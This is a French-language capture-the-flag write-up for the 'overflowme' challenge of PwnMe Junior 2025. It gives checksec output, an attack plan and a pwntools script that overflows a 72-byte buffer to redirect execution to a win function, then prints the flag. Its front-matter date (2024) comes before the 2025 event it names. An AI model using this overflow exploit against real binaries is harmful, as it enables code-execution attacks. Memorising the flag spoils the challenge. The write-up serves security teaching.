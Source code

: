 ```yaml
---
title: "PwnMe Junior 2025 - overflowme WriteUp"
date: 2024-04-14
description: "WriteUp du challenge overflowme du CTF PwnMe Junior 2025"
tags: ["pwn", "buffer-overflow", "ctf", "pwnme"]
---
```


# PwnMe Junior 2025 - overflowme WriteUp

## Description du challenge
Le challenge overflowme est un exercice de buffer overflow sur un binaire 64 bits. Le programme attend une entrée utilisateur et contient une vulnérabilité qui permet d'écraser l'adresse de retour.

## Analyse du binaire

### Vérification des protections
```bash
$ checksec overflowme
[*] '/home/synapse/pwnme-junior-2025/pwn/overflowme/overflowme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Exploitation

### Plan d'attaque
1. Envoyer "5" comme première entrée
2. Overflow du buffer avec un offset de 72 bytes
3. Écraser l'adresse de retour avec l'adresse de la fonction win (0x401417)

### Script d'exploitation
```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

def main():
    p = remote("127.0.0.1", 1337)
    
    p.sendline(b'5')

    offset = 72  
    payload = b'A' * offset
    payload += p64(0x401417)  
    
    # Envoi du payload
    p.sendline(payload)
    p.interactive()

if __name__ == '__main__':
    main()
```

## Flag
```
PWNME{JUNIOR_OVERFLOW_MASTER}
```

## Conclusion
Ce challenge était un exercice classique de buffer overflow. Les points clés étaient :
- Identification de l'offset correct (72 bytes)
- Utilisation de l'adresse correcte de la fonction win (0x401417)
- Configuration correcte de la connexion remote sur le port 1337 